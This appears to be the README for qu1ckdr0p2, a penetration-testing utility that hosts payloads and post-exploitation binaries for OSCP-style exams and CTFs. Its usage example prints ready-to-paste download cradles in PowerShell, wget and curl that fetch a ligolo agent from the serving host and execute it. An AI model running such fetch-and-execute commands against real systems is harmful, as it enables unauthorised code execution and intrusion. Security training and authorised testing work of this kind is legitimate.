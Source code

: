 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.
## NOTE
When you go to copy and paste a download cradle, depending on your terminal emulator of choice you may have to QUICKLY triple or double click the download cradle to highlight it for a copy. This will be fixed in a later version.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2

echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc

or

echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc

serv init --update

```

## Usage
### Serv a single file located in your current working directory
```zsh
$ serv serve -f implant.bin --https 443
```
```zsh
$ serv serve -f file.example --http 8080
```

## Update and help
```zsh
$ serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
$ serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
$ serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
$ serv init --update
```
```zsh
$ serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```




## License

MIT

---

